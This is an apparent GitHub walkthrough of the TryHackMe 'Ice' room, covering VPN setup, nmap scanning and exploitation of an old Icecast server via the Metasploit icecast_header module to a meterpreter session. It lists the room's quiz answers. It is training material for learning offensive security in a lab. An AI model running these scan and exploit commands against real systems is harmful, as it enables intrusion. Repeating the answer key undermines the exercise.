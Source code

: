 # TryHackMe-ice-Walkthrough
Deploy &amp; hack into a Windows machine, exploiting a very poorly secured media server.

![ice bg](https://user-images.githubusercontent.com/120317751/230588239-c2b3596b-8fb5-460c-8556-2e9f9d72a5ae.png)


![ice](https://user-images.githubusercontent.com/120317751/230573629-a0156837-a602-42ed-ac27-d7dccee48dcc.jpg)


<br>

<h2>Download VPN File from Release Section :</h2>

Link: https://github.com/Sumit-CyberSecurity/TryHackMe-ice-Walkthrough/releases/download/ice/sumit5011.ovpn
 
 
 🔴 Important :  Please rename this VPN file as per your TryHackMe account username

<b><H2>Task 1 Connect</b></H2>
<br>

Click on Access Machine --> Click on OpenVPN (How to connect & config VPN)



![ice (1)-min](https://user-images.githubusercontent.com/120317751/230582828-2ae90b78-e403-45c7-a745-8c99c66e4f57.gif)

<br>

<b><H2>Task 2 Recon</b></H2>




![image](https://user-images.githubusercontent.com/120317751/230583696-bf067667-dbad-44cc-a79a-ea0aa36ee73b.png)

<B>Scan and enumerate our victim!</B>

Answer the questions below ----------------------------------------------------------------------------------------------------------------------------------------


Deploy the machine! This may take up to three minutes to start.

     No answer needed
         
Launch a scan against our target machine, I recommend using a SYN scan set to scan all ports on the machine. The scan command will be provided as a hint, however, it's recommended to complete the room 'Nmap' prior to this room.  

     No answer needed
         

Once the scan completes, we'll see a number of interesting ports open on this machine. As you might have guessed, the firewall has been disabled (with the service completely shutdown), leaving very little to protect this machine. One of the more interesting ports that is open is Microsoft Remote Desktop (MSRDP). What port is this open on?

     3389
           
Command: (Your Start Machine IP)

    sudo nmap -sT -sV -O -Pn 10.10.254.30 
           
           

![Screenshot from 2023-04-07 15-30-12](https://user-images.githubusercontent.com/120317751/230589653-59731a6c-d70d-4845-ba58-e52761203d58.png)


What service did nmap identify as running on port 8000? (First word of this service)

     Icecast
     
![Screenshot from 2023-04-08 22-48-33](https://user-images.githubusercontent.com/120317751/230734526-6883e1b8-d151-4b32-8318-144fd4a2b393.png)


Exploit 8000/tcp with Below command
 
     sudo nmap -sT -sV -O -Pn -p 8000 10.10.95.145
     
Output:

![Screenshot from 2023-04-08 22-53-56](https://user-images.githubusercontent.com/120317751/230734733-2672c950-e305-45ce-b63e-515319b35015.png)



What does Nmap identify as the hostname of the machine? (All caps for the answer)

     DARK-PC
     
Open Metasploit:

    msfconsole
    
![Screenshot from 2023-04-08 23-03-03](https://user-images.githubusercontent.com/120317751/230735200-56faf365-2ce7-4982-a982-51e36e574838.png)

        Search icecast
        
        
![Screenshot from 2023-04-08 23-07-42](https://user-images.githubusercontent.com/120317751/230735337-c5ede574-4dd4-41d9-888c-8cea76a72edc.png)


        use exploit/windows/http/icecast_header
  

![Screenshot from 2023-04-08 23-07-42](https://user-images.githubusercontent.com/120317751/230735593-68a0f040-4ab9-46b3-9bc8-70887c84b3a6.png)

         options
         
         
![Screenshot from 2023-04-08 23-16-11](https://user-images.githubusercontent.com/120317751/230735732-909b6421-e649-4217-8ba4-8e3a42a36b57.png)


         set rhosts 10.10.95.145
         

![Screenshot from 2023-04-08 23-20-04](https://user-images.githubusercontent.com/120317751/230735882-24c8babc-0dfc-4cbd-af1b-5b288719d988.png)


         set lhost 10.8.83.18     (VPN IP)
         
         
![Screenshot from 2023-04-08 23-23-50](https://user-images.githubusercontent.com/120317751/230736078-6b5e8588-b71c-4af7-879d-6d1d22100e60.png)

          exploit
          
          
![Screenshot from 2023-04-08 23-29-47](https://user-images.githubusercontent.com/120317751/230736204-cb2c9eb3-8e8a-4399-aec3-5580e8aaf839.png)

Type sysinfo after get meterpreter session   
   
        meterpreter > sysinfo 
        
![Screenshot from 2023-04-08 23-35-41](https://user-images.githubusercontent.com/120317751/230736425-e7fdc379-ff1c-4525-ad50-b3ed2b8fc467.png)


Finally get Hostname


![Screenshot from 2023-04-08 23-36-46](https://user-images.githubusercontent.com/120317751/230736452-303fb127-221c-4bb0-9885-d35c3bf7f5bf.png)



 
<b><H2>Task 3 Gain Access</b></H2>   

![Screenshot from 2023-04-08 00-02-27](https://user-images.githubusercontent.com/120317751/230659913-1bd61fde-2956-4235-bccd-54edef6b37ac.png)


Exploit the target vulnerable service to gain a foothold!

Answer the questions below ----------------------------------------------------------------------------------------------------------------------------------------


Now that we've identified some interesting services running on our target machine, let's do a little bit of research into one of the weirder services identified: Icecast. Icecast, or well at least this version running on our target, is heavily flawed and has a high level vulnerability with a score of 7.5 (7.4 depending on where you view it). What type of vulnerability is it? Use https://www.cvedetails.com for this question and the next.

     execute code overflow
     

What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000

      CVE-2004-1561
      
Now that we've found our vulnerability, let's find our exploit. For this section of the room, we'll use the Metasploit module associated with this exploit. Let's go ahead and start Metasploit using the command `msfconsole`      

       No answer needed


After Metasploit has started, let's search for our target exploit using the command 'search icecast'. What is the full path (starting with exploit) for the exploitation module? This module is also referenced in 'RP: Metasploit' which is recommended to be completed prior to this room, although not entirely necessary. 

      exploit/windows/http/icecast_header
      

Let's go ahead and select this module for use. Type either the command `use icecast` or `use 0` to select our search result.

        No answer needed
        
Following selecting our module, we now have to check what options we have to set. Run the command `show options`. What is the only required setting which currently is blank?

         rhosts

         

First let's check that the LHOST option is set to our tun0 IP (which can be found on the access page). With that done, let's set that last option to our target IP. Now that we have everything ready to go, let's run our exploit using the command `exploit`

         No answer needed






